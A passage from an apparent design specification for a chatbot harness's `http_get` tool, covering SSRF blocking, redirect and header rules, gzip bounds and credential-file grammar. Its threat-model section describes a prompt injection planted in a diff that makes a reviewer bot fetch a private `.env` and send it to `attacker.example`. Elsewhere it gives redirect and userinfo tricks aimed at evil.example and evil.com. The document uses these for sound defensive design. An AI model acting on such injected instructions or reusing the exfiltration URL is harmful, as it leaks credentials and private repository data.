| **URL repertoire, every hop** | A URL, **and the RAW `Location` header value BEFORE any RFC 3986 resolution**, containing a byte `<= 0x20` or `== 0x7F` is **refused, not percent-encoded**. **The raw-value clause is load-bearing and was missing:** `urljoin`/`urlsplit` strip `\t`, `\r` and `\n` before returning, so a check applied only to the resolved URL sees a clean string and cannot refuse them — `Location: //evil.example\n/x` resolves to `http://evil.example/x` and is followed to a host the origin never named as a URL, while hop zero (which checks the string it was handed) refuses the same bytes. Checking only after resolution makes the "binds every hop identically" claim below false — `http_get_invalid_url` on hop zero, `http_get_bad_redirect` on a redirect hop. `urlsplit` strips `\t\r\n` but NOT a raw space, so `Location: /a b` otherwise reaches the request line verbatim as `GET /a b HTTP/1.1`. No CRLF is reachable and this is not response splitting; the reachable damage is a malformed request line a lenient origin may re-parse as a different target, plus a request line that disagrees with the URL reported to the model. **Encoding it would be worse than refusing:** percent-encoding invents a destination the server did not name, which is the same silent reinterpretation the no-MIME-sniffing and at-most-once-header rules exist to forbid. The check belongs in normalisation so it binds hop zero and every hop identically |
| **NAT64 / IPv4-embedded IPv6** | **`64:ff9b::/96` (RFC 6052 well-known prefix) and `64:ff9b:1::/48` (RFC 8215 local-use) — extract the embedded IPv4 address and apply the v4 rules to it.** `64:ff9b::a00:1` IS `10.0.0.1` and `64:ff9b::7f00:1` IS `127.0.0.1`; on any host behind a NAT64 gateway — IPv6-only cloud subnets, AWS DNS64/NAT64, much of Kubernetes — the kernel performs that translation for you. This is the same class as the two rows above and was omitted from them: an attacker-controlled DNS answer in this family is validated, pinned, connected to, and lands on the private address the whole section exists to refuse |
| **Multicast** | `224.0.0.0/4`, `ff00::/8` — refused explicitly, **because the obvious predicate does not catch them.** In CPython, `IPv4Address("239.255.255.250").is_global` and `IPv6Address("ff02::1").is_global` are both **`True`**. An implementation writing `if not ip.is_global: refuse` — the natural reading of "global-unicast only" below — therefore approves every multicast address. TCP will not establish to a multicast group so the practical reach is small, but the stated contract is not implemented and the gap is silent |

Beyond the enumerated list, **any address that is not globally routable is
refused** — multicast, reserved, benchmarking, documentation ranges.
**`is_global` alone is NOT this contract and MUST NOT be the whole predicate:**
it returns `True` for multicast and for every NAT64-embedded address, so the
rows above are load-bearing rather than illustrative. An
enumerated blocklist is a floor, not the contract; the contract is
*global-unicast only*.

#### The tool-visible response contract

Unspecified, this is five decisions a coder makes silently, each of which
changes what the model can truthfully report.

| Question | Rule |
| --- | --- |
| Non-2xx status | **Returned as a normal result** carrying its status and body — NOT a transport error. GitHub returns 404 rather than 403 for an unauthorised private repo, so collapsing statuses into "the request failed" destroys the one signal that distinguishes *absent* from *unauthorised*. §9.4.1 already requires the result to say whether a credential was attached; that pairing is what makes 404 interpretable |
| Media type | **Allowlist**, because "non-text is refused" was not executable and `application/json` is not `text/*` — my own rule would have refused the GitHub API, the exact first use case §9.4 exists for. Permitted: `text/*`, `application/json`, `application/*+json`. Everything else, **and a missing `Content-Type`**, is the named error `http_get_unsupported_content`. **No MIME sniffing** — an unspecified sniffing algorithm is two implementations disagreeing about what a body is |
| Repeated header fields | **`Content-Type`, `Content-Encoding`, `Location` and `Content-Length` MUST each appear at most once.** More than one `Location` on a redirect hop is `http_get_bad_redirect`; more than one `Content-Length` is `http_get_unsupported_content`. **`Location` is the one that actually matters:** a 302 carrying `Location: https://api.github.com/a` and `Location: https://evil.example/b` sends a first-wins client to GitHub, a last-wins client to the attacker, and a combining client to an unparseable join — a destination-selection split, decided by attacker-controlled headers, in the section whose entire subject is SSRF and credential forwarding. Repeated `Content-Length` is the classic request-smuggling desync shape; it bites less here only because `Content-Length` is already untrusted. A response carrying either field on more than one line is the named error `http_get_unsupported_content` (for `Content-Type`) or `http_get_unsupported_encoding` (for `Content-Encoding`) — it is NOT combined per RFC 9110 §5.3 and then re-examined RFC 9110 says repeated fields combine into a comma-separated list, but real clients disagree in practice: some join, some keep the first, some keep the last. So `Content-Encoding: gzip` twice is `gzip, gzip` to one implementation — refused as stacked — and a plain `gzip` to another, which inflates once and hands over a body that is still gzip bytes. Two `Content-Type` lines split the same way between accept and refuse. This is the identical defect the **No MIME sniffing** rule above exists to prevent, arriving through the header block instead of the body; refusing the duplicate is shorter than specifying a join and leaves nothing for implementations to disagree about |
| Charset | **At most one** `charset` parameter on `Content-Type` — *exactly one* was the wrong word and contradicted the very next clause, since it makes zero invalid. Zero → UTF-8. **The supported set at v0.4c is UTF-8 and nothing else** — matched case-insensitively against exactly `utf-8` and `utf8`, after stripping surrounding whitespace and optional quoting. Anything else, including a charset that is perfectly real, and more than one parameter, is `http_get_invalid_encoding` — a named error, not a fallback guess. **"Supported" was previously undefined**, which meant Python's codec registry, a browser registry and an explicit allowlist would each accept different names and different codecs, so two implementations could disagree about the same response. A one-value allowlist also stops an exotic codec manufacturing scalar values the output encoder then has to reject. The body MUST then decode validly in that charset; invalid bytes are the same error, **never silent replacement characters** and never base64 expansion, which would also defeat `max_bytes` |
| Result shape | **A compact JSON object, not prose.** Exact keys and types: `url` (string, the final normalised URL after redirects), `status` (integer), `credential_attached` (boolean), `credential_id` (string or null, never the value — §9.4), `body` (string). **`credential_attached` and `credential_id` describe the request that produced THIS response — the final hop — never the chain.** A credential correctly dropped at a cross-origin redirect means the final request went out unauthenticated, and the result MUST say so. Reporting chain-wide attachment tells the model an unauthenticated 404 was authenticated, which is precisely the confusion §9.4.1 introduced this field to remove. The AUDIT still records every origin the credential touched and the hop it was dropped at — different questions, and they must not share a field. |
| **Why JSON and not a textual envelope** | The body is attacker-controlled. A "stable textual envelope" that merely *names* those fields lets a body containing a line shaped like `status: 200` or `credential_id: github-review` **impersonate the harness's own metadata to the model**. Naming fields is not framing them; without defined delimiters and escaping, two implementations produce results that are both incompatible AND spoofable. JSON is the boring correct answer and the encoder does the escaping |
| Response headers | **NOT exposed to the model.** They are attacker-controlled, unbounded in cardinality, and would need their own redaction pass against §9.4's credential scrub. The status line carries what the model needs |
| Empty body | A valid result with an explicitly empty body, not an error. **A 204 is an answer** — and a real 204 carries no `Content-Type`, so the missing-media-type rule above does NOT apply to a response with no body. Order them: an empty body is a valid empty result regardless of `Content-Type`, and the media-type allowlist applies only where there is a body to interpret. **"Regardless" is literal**: a 204 carrying `Content-Type: image/png` is ACCEPTED as an empty result, not refused. A media type describing a body that does not exist describes nothing, and refusing a valid HTTP response over metadata about absent content is the tool lying about what the server did. **Consequence an implementer must accept:** the media-type check therefore runs AFTER the body is read rather than before, so a disallowed body is streamed before being refused. That is bounded by `max_bytes` on both the wire and decoded sides, so it is an ordering change and not a new resource exposure — but it is observable, and an implementation that refuses early will reject every 204. These two rows contradicted each other, and an implementation following the stricter one refuses every 204 |

**On an ERROR there is no result object and therefore no credential fields.** The model gets the named error and nothing about attachment; the audit remains the record of which origins the credential reached before the failure. Stated because it is otherwise an invention: an implementer could reasonably add `credential_attached` to an error payload, and that would be reporting attachment for a request that produced no response at all. Serialised per the **canonical JSON discipline defined immediately below** — an earlier draft said "the same discipline used elsewhere in this document", which had no referent: SPEC defined no encoder, so "stable" was again left to the coder. The final URL matters: the model asked for one URL and may have been served another |

**A redirect is followed only for `GET`-preserving status codes** (301, 302, 303,
307, 308) and only to an `http` or `https` URL. Any other scheme — `file:`,
`data:`, `ftp:` — is the named error `http_get_bad_redirect_scheme`.

**Resolving the redirect target, in this order, because every step touches SSRF
or credential forwarding:**

1. **A missing or malformed `Location` is the named error `http_get_bad_redirect`.** Not a silent stop, not a return of the 3xx body.
2. **Resolve `Location` against the current hop's URL per RFC 3986 reference resolution.** Real redirects are commonly relative; leaving this unstated means every implementation picks its own base.
3. **Strip the fragment** before anything reaches the wire.
4. **Re-run the userinfo rejection on EVERY resolved hop**, not only the initial URL. `https://api.github.com@evil.com/` is just as effective arriving in a `Location` header as in the model's string.
5. Then, and only then: normalise the origin → resolve DNS → validate and **pin** the address → decide credential forwarding.

**URL length is bounded at 8192 bytes** — the model-supplied initial URL and every resolved redirect target — as the named error `http_get_url_too_long`. Without it a hostile `Location` builds an unbounded request line and an unbounded audit value, both sitting outside every body and header cap in this section.

**Content-Encoding, because the byte bound above says "decoded bytes" and
nothing said what decoding is permitted.** Found by Vec while starting the
build: §9.3.3 mandated a compressed-expansion control and named `gzip` and `br`
in its reasoning, without ever stating which encodings the tool accepts, whether
stacked encodings are legal, or what an unsupported one does. Three inventions
left to the coder in a clause specifically about a bomb vector.

| Rule | Why |
| --- | --- |
| `http_get` advertises **`Accept-Encoding: gzip`** and accepts exactly that one encoding at v0.4c. A response `Content-Encoding` of `gzip`, `identity`, or absent is handled; **anything else — `br`, `deflate`, `compress`, `zstd` — is the named error `http_get_unsupported_encoding`** | One codec is the smallest set that still works against real servers, which compress by default when asked. Every additional codec is another decompressor reachable from an attacker-chosen host, and `br` and `zstd` have far higher expansion ratios than gzip |
| **Stacked encodings are refused.** A `Content-Encoding` listing more than one value — `gzip, gzip`, `br, gzip` — is `http_get_unsupported_encoding`, not decoded recursively | Nested decompression is the multiplicative version of the bomb this whole row exists to bound, and the dual byte bound does not save an implementation that recurses before checking |
| **A chunked response carrying TRAILER FIELDS after the last chunk is refused** with `http_get_invalid_encoding` — the terminating chunk must be followed immediately by CRLF | RFC 9112 §7.1.2 permits a trailer section, so **this is a deliberate conformance gap and a real origin sending `X-Checksum` will be refused.** Stated because it was previously silent, and silence here reads as an implementation bug rather than a decision. The trade: trailers are attacker-controlled header lines arriving **after** every model-visible framing decision has been made, and §9.3.3 exposes no response headers to the model at all — so parsing them buys nothing a caller can observe, while adding a second header-parsing surface with its own cumulative-cap and repeated-field questions. Refusing is one line; parsing safely is a section. If a real origin ever forces this, the fix is to skip the trailer section under the existing 64 KiB header cap without exposing it, NOT to hand it to the model |
| **A malformed or truncated gzip stream is the named error `http_get_invalid_encoding`**, never a partial body | §9.3's rule again: a truncated result the model believes is complete is a lie |
| **Exactly ONE gzip member.** A second concatenated member, or any trailing bytes after the first member ends, is `http_get_invalid_encoding` — the stream is refused, not partially decoded and not recursively decoded | A single `Content-Encoding: gzip` body may legally contain concatenated members, and decoders disagree: some transparently decode every member, while streaming APIs stop at the first and expose the rest as unused data. **Returning only member one hands the model a partial body it believes is complete** — the §9.3 lie again. Decoding all members moves the bomb boundary inside the codec, which is what the cumulative bounds exist to prevent. Refusing is the only option that does neither. In practice this is a non-empty `unused_data` after the first member: reject on it |
| **The HTTP client's own automatic decompression MUST be disabled or bypassed** so the harness observes raw wire bytes | Otherwise the independently mandated wire bound is unobservable — the client has already inflated the body before the harness can count what arrived, and the wire cap silently becomes a second decoded cap |
| The **wire bound applies to compressed bytes as received, the decoded bound to the inflated output**, and the decoder MUST be fed incrementally so it can be stopped at the bound rather than after it | Decompressing to completion and then measuring is the bomb working exactly as designed |

**§11 controls:** a **valid two-member concatenated gzip** is REFUSED, and so is a valid gzip followed by garbage bytes; a gzip response within both bounds is ACCEPTED; a small gzip
body inflating past `max_bytes` is REFUSED at the bound rather than after it; a
`Content-Encoding: br` response is REFUSED with the named error; a stacked
`gzip, gzip` is REFUSED; and a truncated gzip stream is REFUSED rather than
returned partial. **The accept control is not optional** — a suite of rejections
alone passes an implementation that refuses every compressed response, which
would be a working tool that silently never compresses.

**Canonical JSON discipline**, because "compact JSON object" is not a byte shape
and two implementations would otherwise disagree about what they produced:

| Rule | Value |
| --- | --- |
| Encoding | UTF-8. **`ensure_ascii` is FALSE** — non-ASCII is emitted as UTF-8, not `\uXXXX` escapes |
| Lone surrogates | **Rejected, never emitted.** A `\ud800` that survives into the output is an encoder that produces bytes `.encode("utf-8")` then refuses — and that raises `UnicodeEncodeError`, a `ValueError`, **not** an `OSError`, so a handler catching `OSError` misses it entirely |
| Separators | Compact: `,` and `:` with no spaces |
| Key order | **Irrelevant** — only structural parsing is promised. Stated explicitly so nobody implements byte-comparison against an assumed order |
| Non-finite numbers | `NaN` and `±Infinity` are **rejected**, not emitted as bare tokens. `status` is the only numeric field and is always a finite integer, so this can only fire on a bug — which is exactly when it should |
| Top level | Exactly one JSON object with exactly the five named keys. No wrapper, no prefix, no trailing text |

**§11 charset controls:** an explicit `charset=UTF-8` is ACCEPTED (and `charset=utf8`, and mixed case), and a real-but-disallowed label such as `charset=ISO-8859-1` is REFUSED with the named error. One of each — an allowlist tested only on its rejections passes an implementation that accepts nothing.

**§11 result control:** the result MUST parse as a single JSON object, and a response
body containing text shaped like `"status": 500` or `"credential_id": "x"` MUST
NOT create or override any top-level key. That is the property the JSON shape
exists for; asserting the keys without that control tests nothing an attacker
cares about.

**Every failure named here is a MODEL-VISIBLE tool error, not a startup abort** —
§9.3's split: bounds the model can react to mid-turn are tool errors; operator
misconfiguration is fatal at startup.

### 9.4 — `http_get` credentials (v0.4c)

§9 specifies this tool's SSRF defences in detail and says nothing about
authentication, which makes it a public-URL fetcher. The first real use — a
reviewer bot reading a private repo's diff — needs a token, so the shape is
settled here rather than invented in 4c.

**The model never names or supplies a credential, and never receives its literal
bytes.** It supplies a URL and nothing else. The harness matches the request's
normalised origin against a credential map and attaches the header itself.

That claim is deliberately narrower than "the model never sees the value", which
an earlier draft asserted and this section cannot deliver — see the redaction row
below and the residual at the end of §9.4.1.

The alternative — letting the model pass headers — hands it the token, and a
model that holds a token can send it to any host the blocklist permits. The
threat is not hypothetical for this tool specifically: a reviewer bot's whole job
is reading attacker-influenceable text, and "exfiltrate this credential to the
following URL" is one line in a diff. A tool whose primary use is reading
untrusted content must not also hold a secret it can be talked into spending.

**Credentials live in `$YUGO_HTTP_CREDENTIALS_FILE`** (default
`/etc/yugo/http-credentials.yaml`), mounted `:ro`, fatal at startup on the same
terms as the grant file (§9.1) — but under a **stricter mode rule, stated as a
property rather than one exact mode**: `mode & 0o077 == 0`, no group or world
permission bit set. `0600` and read-only `0400` both conform; `0640` does not.
Owner *write* permission does not expose the secret to another identity, so it is
not the thing to forbid; group- or world-*readability* is. This is deliberately
stricter than §9.1's `0644`-or-tighter grant-file rule, whose threat is tampering
rather than reading — the grant file's confidentiality is not a boundary and this
file's is.

**Origin** → header name → value. An origin with no entry is fetched
**unauthenticated**, not refused: public URLs must keep working.

**"Origin" throughout §9.4 and §9.4.1 means the triple (scheme, A-label host,
effective port)**, compared byte-exact after normalisation, where the scheme is
always `https`, the host is IDNA-encoded to its A-label and lowercased, and an
omitted port IS `443` and compares equal to an explicit `:443`. Credentials bind
to that triple, not to a bare hostname: a credential for `api.github.com` is NOT
attached to `https://api.github.com:8443`. The map was host-only in v12.11 while
the redirect rule already treated port as part of identity — two definitions of
"same place" in one section.

**Rules that make it safe rather than merely convenient:**

| Rule | Why |
| --- | --- |
| Parse the URL; **reject any URL carrying a userinfo component**; normalise it to the origin triple defined above (scheme, A-label lowercased host, effective port with omitted `= 443`) and compare **byte-exact** against the map's normalised origins, after the §9 SSRF check | `https://api.github.com@evil.com/` is defeated by correct parsing, not by resolution. **A confusable host such as `аpi.github.com` (Cyrillic а) is a DIFFERENT host and correctly gets NO credential — that is the desired behaviour, not a gap.** Never add NFKC folding, homoglyph normalisation or any fuzzy match to "fix" it: doing so hands the token to the attacker's host. This row's earlier wording invited exactly that implementation |
| **Selection is separate from forwarding.** *Selection*: the harness selects a credential **once**, against the **initial URL's** origin, and only when that scheme is `https`. It MUST NOT select one at any later hop — including when a redirect lands on an origin that has a credential. *Forwarding*: the selected header is carried across a redirect **only while the next hop's normalised origin is byte-identical** to the origin it was selected for. At the first hop whose origin differs in scheme, A-label host, or effective port, the header is dropped **permanently** — it MUST NOT be re-attached later in the chain even if a subsequent hop returns to the original origin | v12.11 stated both "only on the initial request" and "dropped on any redirect that CHANGES scheme, host or port", which give different answers for an ordinary same-origin 302 — the first says hop 2 is unauthenticated, the second says the header survives. Splitting selection from forwarding removes the ambiguity without weakening anything: a 302 to `attacker.com` still carries nothing, because that is an origin change. `api.github.com` and `github.com` are DIFFERENT origins; an `https`→`http` downgrade is an origin change AND would put the token on the wire in cleartext. Defining an omitted port as `:443` matters here specifically: without it, `https://host` → `https://host:443` is textually a port change and a conforming implementation would drop the credential on a redirect that went nowhere. **MUST, not may** — a `MAY` in a security rule means two conforming implementations behave differently and no test can be written |
| The harness MUST **redact the credential value by literal-substring match** from the **entire tool-visible result** — body, status line, rendered request metadata, and any client or transport error string — AND from the audit result summary, on **every** success and error path, before either is returned, replacing it with the credential's id. Naming only "the response body" leaves a second result channel open: an HTTP-client exception that stringifies the request, or an error renderer that includes headers, reaches the model by a path the body scrub never touches. **The guarantee is scoped to the literal value**: after redaction the raw bytes MUST NOT appear in the tool-visible result or the audit. A *transformed* reflection — JSON-escaped, URL-encoded, base64, or any other reversible encoding the origin chooses to apply to the header it received — is **residual risk that this rule does not close**, and MUST NOT be described as if it did | Absence from arguments is true by construction and absence from the audit is enforceable, but a RESULT is the response body and the credentialed host controls that — reflection endpoints, verbose 401s and debug routes echo request headers, and the model chooses the path, so it chooses the reflector. Literal redaction closes the common accidental case and is worth mandating. It cannot close the deliberate one: no response-body redactor can prove secrecy against an origin permitted to transform its own input, so the residual is bounded by *trusting the credentialed origin* and by least-privilege, revocable credentials — not by matching. This is the §9.4.1 authority residual reappearing one layer down, at the value |
| The audit records the credential's **id** (§9.4.1), **every origin it was attached to** across a redirect chain, and a drop event naming the hop where it was dropped | "The host", singular, is wrong once redirects exist: which hops received it is the fact an auditor needs. Origin, not host, for the same reason the match is by origin — `api.github.com:8443` is a different place |
| **Statically** fatal at startup: an entry whose `host` ends in a blocked TLD. (IP-literal origins are fatal one layer earlier — §9.4.1's authority grammar forbids the entire class, blocked range or not.) **NO DNS resolution happens at startup** | A credential aimed at `169.254.169.254` is a mistake or an attempt and should stop the bot. But resolving keys at boot would add a DNS dependency to startup with undefined behaviour on failure, and would still be defeated by a host that resolves publicly at boot and to link-local at call time. The real guarantee is the runtime post-resolution SSRF check, which runs BEFORE the credential is matched; this row is defence in depth and is scoped to what a static check can promise |

### 9.4.1 — the credentials file grammar

§9.1 opens by saying that naming a `.yaml` path is not a contract. An earlier
draft of this section named one and said "fatal at startup on the same terms",
leaving the shape to the implementer — the exact gap §9.1 exists to close, on a
file that is a higher-value target than the grant file.

```yaml
# /etc/yugo/http-credentials.yaml — mounted :ro, no group/world bits (0600 or 0400)
version: 1
credentials:
  - id: github-review          # the identifier the audit records; NOT the value
    host: api.github.com       # origin authority; port omitted = 443
    header: Authorization
    value: "Bearer ghp_..."
```

**Loaded with `yaml.safe_load` (or an equivalent `SafeLoader`); `yaml.load` with
the default loader is FORBIDDEN** — same reason as §9.1, and more so here.

**The §9.1 loader semantics apply verbatim, not by analogy.** A *duplicate
mapping key at any level* is fatal, and YAML **aliases and merge keys (`<<`) are
rejected**. Plain `safe_load` silently keeps the last of a duplicate pair, which
means a second `value:` or `header:` inside one entry would discard the first
*during parsing* — before any of the validation below ever runs. §9.1 exists
because that class of bug is invisible to a validator that only inspects the
finished object; naming `safe_load` without naming the loader's mapping
construction would have reproduced it on the higher-value file.

**Entry shape.** Every item of `credentials` MUST be a mapping with **exactly**
the four keys `id`, `host`, `header`, `value` — no more, no fewer. Every value
MUST be a non-empty `str`; a bare scalar, a list, `null`, a number, or a boolean
in any of the four positions is fatal. (`isinstance(True, int)` is `True` in
Python; a type check that accepts "a scalar" accepts `value: true` and builds an
`Authorization: True` header. Require `str` explicitly.)

**Field grammar**, each fatal at startup and named individually:

| Field | Constraint |
| --- | --- |
| `id` | Non-empty `str` in the **same HTTP field-value repertoire as `value`** — visible ASCII `0x21`–`0x7E` plus SP and HTAB — **and, like `value`, with no leading or trailing whitespace.** An earlier draft gave `value` the whitespace rule and omitted it for `id`, so ` github-review ` loaded; the two fields are one predicate and drift apart the moment they are written as two. It is not sent on the wire, but it IS returned to the model as `credential_id` in the result object, so a non-ASCII or lone-surrogate `id` passes startup and then trips the result encoder at call time, under whatever error class the catch-all happens to use. **Constrain it where `value` is constrained, and fail at startup where a human can see it.** Unique across entries, and an **operator-authored opaque label** — `github-review`, not a slice of the token. The only executable rule is that `id` MUST NOT equal `value` and MUST NOT contain the **complete** `value`. Nothing weaker is checkable: an earlier draft said "or any part of it", which has no minimum length or direction, is satisfied by any two strings sharing one character, and made this document's own worked example fatal. Confidentiality of the value rests on the mandated literal scrub, not on a substring-entropy policy invented here |
| `host` | An origin authority under the grammar below. The key keeps the name `host` rather than `origin` because the scheme is fixed at `https` and there is nothing else for it to hold; it is an authority, not a bare hostname. Normalised to (lowercased A-label, effective port, `https`) per §9.4 — omitted port is `443`. The **normalised origin** MUST be unique across entries; `api.github.com` and `api.github.com:443` are the SAME origin and are therefore a duplicate, not two entries. MUST pass the static blocklist check in §9.4 |
| `header` | Non-empty `str` that is a valid HTTP field name — an RFC 9110 `token`: one or more ASCII letters, digits, or one of the fifteen RFC 9110 `tchar` symbols — ``! # $ % & ' * + - . ^ _ ` ~`` and the vertical bar — and nothing else. Colon, space and every other byte are fatal. This is an executable rule; "a header name" was not |
| `value` | Non-empty `str` restricted to the **HTTP field-value repertoire**: visible ASCII `0x21`–`0x7E`, plus SP and HTAB, and **nothing else**. That excludes CR, LF and NUL by construction — header-injection defence at the file layer, since a value carrying `\r\n` splices additional headers into every request the credential touches — and it also excludes **every non-ASCII character**. No leading or trailing whitespace. **The loader and the transport must agree on what is sendable.** An earlier draft allowed any non-empty string without CR/LF/NUL while request construction encodes the header block as ASCII, so a non-ASCII credential passed startup and failed only when used — under the wrong error class, at the worst possible moment, on a value an operator had been told was valid. **Fail at startup, naming the offender, where a human is present to fix it** |

**The `host` authority grammar**, because "an A-label host, optionally `:port`"
is not one. Normalised-origin uniqueness and credential selection both depend on
every implementation parsing this string identically, so the parse is specified
here rather than delegated to whichever URL library is at hand:

```
authority = hostname [ ":" port ]
hostname  = label *( "." label )          ; DNS A-label, 1..253 octets total
label     = ( ALPHA / DIGIT ) [ *( ALPHA / DIGIT / "-" ) ( ALPHA / DIGIT ) ]
          ; 1..63 octets, ASCII only, no leading or trailing "-"
port      = 1*5DIGIT                       ; ASCII decimal, value 1..65535
```

Fatal, each named individually: an empty authority; a trailing `:` with no port
(`api.github.com:`); a non-decimal, negative, zero, or out-of-range port
(`:-1`, `:0`, `:99999`); a port with a **leading zero** (`:0443` — rejected
rather than normalised, so two spellings cannot denote one origin); more than one
`:`; any non-ASCII byte (the field holds an A-label, so the operator does the
IDNA conversion, not the loader); and a trailing dot.

**IP-literal origins are forbidden outright** — no IPv4 dotted-quad, no bracketed
IPv6, blocked or not. §9.4's static check already makes a blocklisted IP fatal,
and the credentialed hosts that matter are DNS names; forbidding the whole class
is a shorter contract than defining bracketed-IPv6 normalisation for a case that
has no use. That also removes the ambiguity of a colon-bearing literal, where
"the part before the colon" is not a well-defined question. §9.4's static row
consequently only has blocked TLDs left to catch at this layer; it is kept
because it names the guarantee, and the runtime post-resolution SSRF check
remains the real one.

Fatal at startup, naming the offender: malformed YAML; root not a mapping;
`version` missing, or not an `int`, or not `1` — **`type(version) is int`, not
`version == 1`**, because `version: true` satisfies the naive comparison in
Python for the same reason §9.3.1 already documents for tool config; unknown key
at either level; a duplicate mapping
key anywhere; an alias or merge key; `credentials` not a list; an entry that is
not a mapping or does not carry exactly the four keys; any field violating the
grammar above; **a duplicate normalised origin** (silently keeping the last would
redirect a token to a different header with no review); a duplicate `id`; a host
failing the static blocklist check above; and the mode/location rules from §5.

**Read once, at startup.** No reload, no watch — the §9.1 argument applies
verbatim: a credential set that changes under a running turn cannot be audited
against the turn that used it. Rotation is a restart.

**The tool result MUST tell the model whether a credential was attached, and
which id** — never the value. Without it the model cannot distinguish "this
private repo does not exist" from "I fetched it unauthenticated", because GitHub
returns 404 rather than 403 for an unauthorised private repo, and it will report
the wrong one to a human. §9.3's rule stands: a lie is worse than a refusal.

**Credentials are a capability.** An operator auditing `tools.yaml` to see what a
bot can do cannot see that its `http_get` carries a GitHub token. §9.1's grant
file and this file must be read together; neither alone describes the bot's
reach.

**The residual this does NOT close, stated because the section would otherwise
read as a solved problem.** Withholding the credential's VALUE does not withhold
its AUTHORITY. The harness spends the token on the model's instruction, against
any URL on the credentialed host. A reviewer bot with an `api.github.com`
credential, fed a poisoned line in a diff it was asked to read, can fetch
`https://api.github.com/repos/<victim>/<other-private-repo>/contents/.env` — the
harness attaches the token, the private content lands in context — and then
exfiltrate it with `https://attacker.example/?d=<base64>`, a public host, not
blocklisted, unauthenticated, permitted by every rule above. The credential
value never moved; everything it protected did.

**The same residual at the value layer.** Literal redaction (§9.4) removes the
credential's exact bytes from the body and the audit. It cannot remove a
*transformed* one: the credentialed origin receives the header and chooses how to
echo it, so a JSON-escaped, URL-encoded or base64 reflection passes literal
matching untouched and is trivially reversible by the model. This is not a
defect in the redactor — no response-body matcher can prove secrecy against an
origin permitted to transform its own input, and enumerating encodings is a
losing game against an endpoint that can invent one. The honest statement is the
one §9.4 makes: the raw value never appears; the value's confidentiality against
a *hostile or compromised credentialed origin* is not something this design
delivers.

Three consequences, all binding on 4c. The credentialed origin **MUST be one the
operator trusts with the credential's own value**, since a reflection it controls
defeats redaction — which is not a new trust assumption, merely one that was
implicit and is now written down. The credential **MUST be minimum-scope** —
read-only, scoped to the repositories actually under review, never an org-wide
PAT — because its scope IS the blast radius, and because a credential that can be
revoked and re-issued cheaply is the only real answer to a reflection that already
happened. And **`http_get` remains an
unconstrained outbound data channel**, since a model-controlled query string
exfiltrates as well as any POST. This section does not close that and must not
be read as closing it.

**What this deliberately does not do:** no method the model can choose.
`http_get` gets. That is narrower than "no write access to third-party
services" — GET mutates on a large minority of real APIs — and an earlier draft
of this line said "entirely", which was false in both directions. A bot that
needs to publish a result publishes it over the fleet bus and lets its requester
act, which is how review already works between bots here.

## 10 — Error handling contract

- **LLM timeout / api error / rate-limit** — user-visible fallback strings. Rate-limit triggers backoff-and-retry (v0.4+).
- **Discord gateway drop** — discord.py handles reconnect. Bot restart NOT triggered.
- **`_lock` contention** — typing indicator BEFORE lock acquire so queued users see activity. Queue depth soft-cap 3; beyond that drop with `[busy — dropped]`.
- **Chunking** — code-fence-aware. Never split inside a triple-backtick block. If code block >1990 chars, wrap split segments with fresh open/close fences + `[…continued]` marker.
- **Fleet-bus disconnect (v0.3+)** — retry with backoff; audit each attempt.
- **JetStream lag / consumer stall (v0.7+)** — monitor consumer pending count; alert if unprocessed > threshold.
- **Persona file missing** — fatal at startup.
- **Tool grant file malformed (v0.4b+)** — fatal at startup, naming the offending key. Covers every fail-closed row in §9.1: unparseable YAML, non-mapping root, `version` not `1`, unknown key at either level, non-mapping `tools`, invalid or duplicate tool name, a name this build does not ship, group/world-writable grant file. An **absent or empty** grant file is NOT an error — it means zero tools.
- **`http_get` tool errors (v0.4c+)** — all MODEL-VISIBLE, never startup aborts, each named: `http_get_redirect_cap`, `http_get_timeout`, `http_get_size_cap` (decoded, wire, or header bound), `http_get_invalid_encoding`, `http_get_unsupported_content`, `http_get_bad_redirect_scheme`, `http_get_bad_redirect` (**a `Location` on a redirect hop that this document refuses to follow on URL grounds** — a forbidden *scheme* has its own code `http_get_bad_redirect_scheme` and is not in this list: missing, malformed, unparseable after RFC 3986 resolution, carrying userinfo, missing a hostname, containing a lone surrogate, or carrying a trailing-dot host — the same predicates `http_get_invalid_url` names on hop zero, applied to a resolved redirect target — **and nothing else; see below**), **`http_get_invalid_url`** (a malformed URL supplied by the MODEL on hop zero: not a string, unparseable, carrying userinfo, missing a hostname, containing a lone surrogate, carrying a trailing-dot host, **containing any byte outside the RFC 3986 URI repertoire — concretely anything `<= 0x20` or `== 0x7F`, which includes a raw space** — or **carrying a scheme other than `http`/`https`** — the redirect-hop counterpart is `http_get_bad_redirect_scheme`, and hop zero previously had no scheme code at all, so an implementation checking the scheme before the hop-zero/redirect split reported a *redirect* error for a model-supplied `file:///etc/passwd` where no `Location` existed: the borrowed-specific-code shape this list has now corrected three times), `http_get_url_too_long`, `http_get_unsupported_encoding` (a `Content-Encoding` other than gzip/identity, or stacked), `http_get_transport_error` (connect refused, TLS handshake failure, socket error, result-encoding failure — anything not covered by a specific code above), and `http_get_blocked_address` for **either** an address that failed the §9 SSRF check at any hop **or a hostname whose trailing labels match the §9 blocked-TLD set** — the name check runs BEFORE resolution on every hop, and refusing there is the §9 check refusing, so it carries the §9 code. **The enumeration used to say "only … an address", which left the blocked-TLD set with no runtime home at all:** `https://box.home.arpa/` against an NXDOMAIN resolver was `blocked_address` to an implementation refusing pre-resolution and `transport_error` to one that resolved first and followed the DNS-failure rule below, both citing this list. The only place this list admitted the TLD check was §9.4's *static* check, which is a startup abort on credential entries — and this list opens by saying it contains no startup aborts, so the code was simultaneously assigned to a check it could never be emitted from. **DNS failure is not an SSRF refusal:** a `gaierror`, NXDOMAIN, or dead resolver is `http_get_transport_error`, because a typo'd hostname is a mistake and reporting it as a blocked address accuses the model of something it did not do. The one genuine boundary: **if the resolver returned addresses and §9 filtered them ALL, that IS `http_get_blocked_address`** — the check ran and refused every answer. If the resolver returned nothing at all, there was no address to block and it is `http_get_transport_error`. A non-2xx HTTP status is **NOT** in this list — it is a normal result carrying its status, per §9.3.3.

**No unclassified failure may borrow a specific code, and this applies at EVERY site, not only the catch-all.** Two borrows found in the v0.4c implementation, both by review rather than by testing:

